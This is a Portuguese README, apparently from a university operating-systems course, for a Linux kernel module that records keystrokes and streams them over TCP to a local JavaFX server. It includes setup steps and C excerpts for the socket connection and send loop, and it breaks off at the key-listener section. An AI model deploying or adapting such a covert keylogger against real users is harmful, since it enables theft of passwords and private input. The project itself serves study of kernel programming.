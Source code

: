# **Módulo kernel escaneador de teclado com servidor TCP.**

Trabalho da disciplina de Sistemas Operacionais I (SSC0640), lecionada pelo Docente Vanderlei Bonato, para o curso de Engenharia de Computação - USP São Carlos.


Por: **Caio O. Godinho**, **Hugo H. Nakamura** e **Isaac S. Soares**.

---

**Esse código foi realizado e executado na distribuição de Linux Ubuntu 23.04. Em outros sistemas derivados, algumas execuções podem não funcionar!**

## **1. Composição do projeto.**
O projeto foi desenvolvido com o propósito de ser um driver de kernel capaz de escanear as teclas do teclado e enviar a um usuário externo conectado, funcionando por trás do uso principal do sistema.

Dessa forma, o usuário externo é um servidor, implementado em **user space** na linguagem Java, com interface JavaFX. O driver é um módulo kernel que deve ser inserido manualmente, implementado em C no **kernel space**.

## **2. Requisitos**
* Apache ant;
* JDK Java 8 com javaFX;
* Arquivos headers de kernel;

## **3. Instalação dos requisitos.**
### **3.1. Java JDK 8 e Apache Ant**
A execução do servidor depende do compilador Apache Ant. Caso você não possua instalado, basta copiar o código abaixo no terminal e executar.

```
$ sudo apt install ant
```

Também é preciso ter o pacote de desenvolvedor Java 8. No site oficial da Oracle "https://www.oracle.com/br/java/technologies/javase/javase8-archive-downloads.html" você pode baixar o binário do **Java SE Development Kit 8u202** e executar no terminal

```
$ sudo tar -C /usr/java -zxf <nome do arquivo binário>.tar.gz
```

### **3.2. Arquivos headers de kernel.**

Para saber se essas bibliotecas estão instaladas no seu sistema, execute

```
$ uname -r
$ apt search linux-headers-$(uname -r)
```

Caso você não tenha as bibliotecas, execute

```
$ sudo apt-get install build-essential linux-headers-`uname -r`
```

## **4. Guia de execução.**

1. Compile todos os arquivos executando:
```
$ make
```
2. Abra o servidor executando:

```
$ make start
```
3. Com o servidor aberto, é preciso pressionar **"Abrir servidor"**, para que ele comece a aceitar conexões. Nessa etapa, é importante verificar se o IP é **127.0.0.1** e a porta **8008**.

4. Agora deve-se inserir o módulo no kernel com:

```
$ make insert
```

5. Com o módulo no kernel, ele se conectará automaticamente e o servidor começará a mostrar as teclas digitadas pelo usuário. Para retirar o módulo do kernel, execute

```
$ make remove
```

## **5. Resumo do módulo.**

### **5.1. Conexão com o servidor.**
A rotina de conexão com o servidor é a primeira rotina executada ao ínicio do módulo. Nela, define-se o IP e configura a conexão. Depois conecta-se o socket do cliente. No trecho abaixo, há apenas a parte principal da rotina.

```
//Define o endereço de IP.
unsigned char ip[5] = {127,0,0,1,'\0'};

//Reserva memória no endereço 'endereco'.
memset(&endereco, 0, sizeof(endereco));

//Configura a conexão com o endereço IPV4, na porta 8008 no IP definido.
endereco.sin_family = AF_INET;
endereco.sin_port = htons(8008);
endereco.sin_addr.s_addr = htonl(criaEndereco(ip));

//Conecta o cliente ao servidor externo.
socket->ops->connect(socket, (struct sockaddr*)&endereco, sizeof(endereco), O_RDWR);

//Iniciar o notifier do teclado.
register_keyboard_notifier(&keysniffer_blk);

```


### **5.2. Rotinas de envio de mensagem.**

```
//Cria a struct do tipo msghdr.
struct msghdr msg;

//Define o struct de mensagem.
msg.msg_name = 0;
msg.msg_namelen = 0;
msg.msg_control = NULL;
msg.msg_controllen = 0;
msg.msg_flags = flags;

//Enviar a mensagem ao servidor.
while(1){
    //Estrutura de buffer.
    vec.iov_len = left;
    vec.iov_base = (char *)mensagem + written;

    //Retorna o número de bytes enviados.
    len = kernel_sendmsg(localSocket, &msg, &vec, left, left);

    //Ao receber constantes do sistema, ignora e prossegue enviando.
    if(len == -ERESTARTSYS || !(flags & MSG_DONTWAIT) && len == -EAGAIN)
        continue;

    //Caso ainda haja bytes para enviar.
    if(len > 0){
        written += len;
        left -= len;
        if(left)
            continue;
    }
    break;
}
```

### **5.3. Listener das teclas**